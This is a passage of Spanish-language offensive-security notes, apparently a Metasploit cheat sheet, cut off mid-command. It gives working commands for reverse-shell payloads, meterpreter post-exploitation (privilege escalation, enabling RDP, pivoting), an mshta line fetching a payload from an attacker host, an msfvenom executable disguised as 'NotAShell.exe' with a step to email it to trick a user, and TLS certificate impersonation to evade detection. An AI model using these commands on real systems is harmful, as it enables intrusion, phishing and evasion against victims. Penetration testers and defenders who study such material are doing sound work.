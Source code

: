		- **`use [ruta exploit]`:** Así se selecciona que se utilizará
		- **`show options`:** Mostrará los parámetros del exploit a configurar
		- Podemos hacer `set [PARAM] [VALUE]` para configurar un determinado parámetro: `set LHOST 10.0.2.4`
		- **`set PAYLOAD cmd/unix/reverse`:** Esto lo que hace es añadir al exploit un payload, que en este caso ejecutará un shell remoto
		- **`run`:** Ejecutar un exploit o lo que sea que tengamos seleccionado con `use`
		- **`meterpreter`:** Es algo así como una shell vitaminada. Con el comando shell tendremos acceso a una shell del sistema
		- **Shellcode:** Conjunto de instrucciones dentro de un payload que suele estar en ensamblador
		- **Encoder:** Esconde los payloads
	- Para upgradear shell a meterpreter: `post/multi/manage/shell_to_meterpreter` y una vez en meterpreter podemos usar módulos de post útiles:	
		- **`run post/windows/gather/checkvm`**
		- **`run post/multi/recon/local_exploit_suggester`:** Para ver que podemos usar para subir privilegios
		- **`run post/windows/manage/enable_rdp`:** Para abrir el control de escritorio remoto
		- **`run autoroute -h`:** Permite usar como gateway la máquina victima para acceder a otras partes de la red
	- Para obtener una reverse shell directamente con una petición del navegador:
	  ```
	  # En Metasploit
	  use exploit/windows/misc/hta_server
	  set LHOST 443 # Opciona, puede ayudar en ocasiones
	  exploit

	  # En la victima
	  mshta.exe http://<IP_ATACANTE>:8080/<NOMBRE_GENERADO>.hpa
	  ```
	- Veamos como crear una reverve shell con un payload staged (Necesitará un handler especifico pero será más pequeño) utilizando phishing a un sistema Windows:
		1. Usamos `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATACKER_IP> LPORT=53 -f exe -o NotAShell.exe` para crear el ejecutable que mandaremos
		2. Deberemos ahora lanzar Metasploit y esperar a que alguien ejecute el archivo creado antes:
		```
		msfconsole
		use exploit/multi/handler
		set payload windows/meterpreter/reverse_tcp
		set LPORT 53
		set LHOST <La misma dirección usada con msfvenom>
		exploit -j
		```
		3. Ahora toca la parte en la que mandas el correo intentando convencer al usuario de ejecutar tu archivo
	- En caso de querer utilizar alguna herramienta externa a metasploit podemos hacer lo siguiente:
		1. Abrir un proxy socks4a desde metasploit para utilizar la route que hemos metido antes
		2. Una vez con eso hecho, vamos al fichero `/etc/proxychains.conf` y añadimos una linea de que proxy usar (Ejemplo: `socks4 127.0.0.1 8080`)
		3. Con el comando `proxychains` delante de cualquier comando podremos mandar dicho comando a traves de nuestro proxy
	- Se podría crear un script para metasploit y agilizar procesos que se usen mucho `msfconsole -r resourcescript.rc`
	- Para evitar posibles IDs/IPs se puede hacer lo siguiente para evitar que Metasploit utilice su certificado TLS con el módulo `exploit/multi/handler` al usar payloads HTTPS:
		1.  Usando `auxiliary/gather/impersonate_ssl` se copia un certificado TLS de un determinado sitio web
		2. Ahora para generar el payload de Meterpreter los haremos desde la propia consola de Metasploit (La ruta al certificado TLS te la da el propio `auxiliary/gather/impersonate_ssl` al terminar):
		   ```
		   msf payload(reverse_http) > use payload/windows/meterpreter/reverse_https
		   msf payload(reverse_https) > set stagerverifysslcert true